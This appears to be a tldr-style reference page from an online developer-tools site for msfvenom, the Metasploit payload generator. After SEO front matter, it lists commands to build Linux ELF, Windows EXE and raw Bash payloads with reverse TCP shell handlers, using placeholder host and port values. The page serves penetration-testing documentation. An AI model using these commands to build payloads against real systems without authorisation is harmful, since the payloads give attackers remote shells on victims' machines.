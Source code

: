 ```yaml
---
title: 'Generate Metasploit Payloads - Create Exploit Code | Online Free DevTools by Hexmos'
name: msfvenom
path: '/freedevtools/tldr/common/msfvenom/'
canonical: 'https://hexmos.com/freedevtools/tldr/common/msfvenom/'
description: 'Generate Metasploit payloads with msfvenom. Create reverse shells, executable files and raw code for penetration testing. Free online tool, no registration required.'
category: common
keywords:
  - metasploit payload generation
  - reverse shell generator
  - exploit code creation
  - msfvenom payload creator
  - linux payload generator
  - windows executable generator
  - raw shellcode generator
  - penetration testing payloads
  - reverse tcp payload
  - msfvenom command line
features:
  - Generate payloads for various operating systems
  - Create reverse TCP shells for penetration testing
  - Output payloads in multiple formats like ELF, EXE, and raw
  - List available payloads and formats
  - Customize payload options such as LHOST and LPORT
ogImage: 'https://hexmos.com/freedevtools/site-banner.png'
twitterImage: 'https://hexmos.com/freedevtools/site-banner.png'
---
```


# msfvenom

> Manually generate payloads for metasploit.
> More information: <https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html>.

- List payloads:

`msfvenom {{[-l|--list]}} payloads`

- List formats:

`msfvenom {{[-l|--list]}} formats`

- Show payload options:

`msfvenom {{[-p|--payload]}} {{payload}} --list-options`

- Create an ELF binary with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} elf {{[-o|--out]}} {{path/to/binary}}`

- Create an EXE binary with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} exe {{[-o|--out]}} {{path/to/binary.exe}}`

- Create a raw Bash with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} cmd/unix/reverse_bash LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} raw`

